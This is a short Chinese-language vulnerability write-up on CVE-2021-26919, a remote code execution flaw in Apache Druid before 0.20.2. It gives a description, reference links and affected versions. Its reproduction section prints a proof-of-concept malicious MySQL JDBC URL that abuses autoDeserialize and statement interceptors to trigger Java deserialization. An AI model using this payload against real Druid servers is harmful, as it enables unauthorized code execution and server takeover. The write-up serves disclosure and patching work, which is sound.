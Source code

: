 # Apache Druid 远程代码执行漏洞 CVE-2021-26919

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。2021年3月30日，Apache Druid官方发布安全更新，修复了 CVE-2021-26919 Apache Druid 远程代码执行漏洞。由于Apache Druid 默认情况下缺乏授权认证，攻击者可直接构造恶意请求执行任意代码，控制服务器。

参考链接：

* http://m0d9.me/2021/04/21/Apache-Druid-CVE-2021-26919-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
* https://help.aliyun.com/noticelist/articleid/1060822985.html

## 漏洞影响

```
Apache Druid < 0.20.2
```

## 漏洞复现

jdbc触发点：https://druid.apache.org/docs/0.19.0/development/extensions-core/druid-lookups.html#polling-lookup

poc:

```
url = "jdbc:mysql://localhost:3307/?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&maxAllowedPacket=65535"
user ="cb1"
password="password"
```

